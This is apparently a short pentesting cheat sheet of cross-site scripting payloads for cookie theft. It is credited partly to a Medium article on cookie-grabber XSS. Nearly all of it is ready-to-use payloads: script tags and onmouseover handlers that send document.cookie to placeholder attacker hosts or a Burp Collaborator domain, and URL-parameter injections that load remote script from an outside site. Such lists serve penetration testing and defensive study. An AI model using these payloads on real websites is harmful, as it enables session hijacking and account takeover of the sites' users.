 Payload to inject:
```
<script>document.location="http://YOUR_IP:PORT/cookie/" + document.cookie </script>
```

onmouseover:

```
onmouseover='document.location=%22https://<your_Burp_Collab>.burpcollaborator.net?%22.concat(document.cookie)
```

or

```
onmouseover='setTimeout(function()%7Bdocument.location=%22https://<your_Burp_Collab>.burpcollaborator.net?%22.concat(document.cookie);%7D,1)
```

or

```
onmouseover='document.write(%22<img src=https://<your_Burp_Collab>.burpcollaborator.net?%22.concat(document.cookie).concat(%22 />%22))
```

or

```
<script>
var i = new Image();
i.src="//<your_Burp_Collab>.burpcollaborator.net?q="+document.cookie;
</script>
```

XSS payload:

```
<script src=http://attacker_IP:5000/?c="+document.cookie;></script>
```

Or

```
<script type="text/javascript">document.location="http://attacker_IP:5000/?c="+document.cookie;</script>
```

- From <https://medium.com/@laur.telliskivi/pentesting-basics-cookie-grabber-xss-8b672e4738b2> 


### Other examples:

GET Requests (URL):

```
&vulnfield=test"><img src=x onerror='var x=document.createElement("script");x.src = "//thegetch.github.io/x";document.body.appendChild(x);'>
```

```
vulnfield=foobar'%3e <img src=x onerror='var x=document.createElement("script");x.src = "//thegetch.github.io/x";document.body.appendChild(x);'>
```
